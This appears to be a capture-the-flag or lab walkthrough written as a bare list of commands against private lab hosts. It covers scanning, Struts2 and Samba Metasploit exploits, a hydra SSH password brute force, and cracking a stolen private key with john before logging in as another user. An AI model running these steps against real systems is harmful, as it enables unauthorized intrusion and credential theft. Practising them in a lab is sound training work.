 1. nmap -Pn -A -v -oN scan/nmap 10.10.146.8
2. gobuster dir -u http://10.10.146.8/ -w /usr/share/dirb/wordlists/common.txt -x php,html,txt -o scan/gobuster
3. msfconsole exploit/multi/http/struts2_namespace_ognl
4. msfconsole exploit/multi/http/struts2_rest_xstream
5. msfconsole exploit/linux/samba/is_known_pipename
6. enum4linux -a 10.10.133.168
7. hydra -t 4 -l jan -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt ssh://10.10.146.8
8. ssh jan@10.10.146.8
9. /usr/share/john/ssh2john.py id_rsa_kay > id_rsa_kay.hash
10. john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_kay.hash
11. ssh -i id_rsa_kay kay@10.10.146.8
